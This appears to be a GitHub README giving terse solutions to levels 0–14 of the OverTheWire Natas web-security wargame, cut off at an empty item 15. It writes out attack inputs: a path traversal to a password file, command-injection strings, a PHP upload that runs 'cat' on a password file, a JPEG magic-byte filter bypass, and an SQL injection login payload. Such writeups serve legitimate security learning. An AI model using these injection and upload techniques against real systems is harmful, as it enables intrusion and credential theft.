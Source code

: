 # Natas writeup

### Levels
0) page source `[Ctrl + U]`
1) page source `[Ctrl + U]`
2) **url** + `/files`
3) **url** + `/robots.txt` & **url** + `/s3cr3t/`
4) Edit the `Referer` value

<p align="center">
  <img src="https://github.com/vaezim/OverTheWire-Writeups/blob/master/natas/media/natas5.png" />
</p>

5) Set `Cookie: Loggedin=1`

<p align="center">
  <img src="https://github.com/vaezim/OverTheWire-Writeups/blob/master/natas/media/natas6.png" />
</p>

6) **url** + `includes/secret.inc` & page source
7) **url** + `index.php?page=/etc/natas_webpass/natas8`
8) Decode the encoded secret:
https://github.com/vaezim/OverTheWire-Writeups/blob/c6f9570f6202bc18fe202eb9f16317a5565657f9/natas/code/natas8.php#L1-L10
9) Find words containing: `a /etc/natas_webpass/natas10;`
10) Find words containing: `a /etc/natas_webpass/natas11`
11) First find the XOR key used by the server side using default cookie data:

<p align="center">
  <img src="https://github.com/vaezim/OverTheWire-Writeups/blob/master/natas/media/natas11.png" />
</p>

then set `$default_data["showpassword"] = "yes"`:
https://github.com/vaezim/OverTheWire-Writeups/blob/504cad6dd664197c39c6eb1b1d3543c966fea285/natas/code/natas11.php#L1-L22

12) Upload a php file to print the output of the command `cat /etc/natas_webpass/natas13`. 
https://github.com/vaezim/OverTheWire-Writeups/blob/42949a4d90b62dd42459b38b19ea3bfbf7383178/natas/code/natas12.php#L1-L6
Then change the `filename` request parameter to a string with `.php` extension:

<p align="center">
  <img src="https://github.com/vaezim/OverTheWire-Writeups/blob/master/natas/media/natas12.png" />
</p>

13) We need to put jpeg's magic number `ff d8 ff e0` to the beginning of the file.
https://github.com/vaezim/OverTheWire-Writeups/blob/43b85356b6dd37cf4d54d27396e0dea988d5d008/natas/code/natas13.py#L1-L15
The rest is the same as level 12.

14) Add `debug` key to the query parameters:

<p align="center">
  <img src="https://github.com/vaezim/OverTheWire-Writeups/blob/master/natas/media/natas14.png" />
</p>

SQL Injection:
```
username = " or true; -- 
password = <Anything>
```

15) 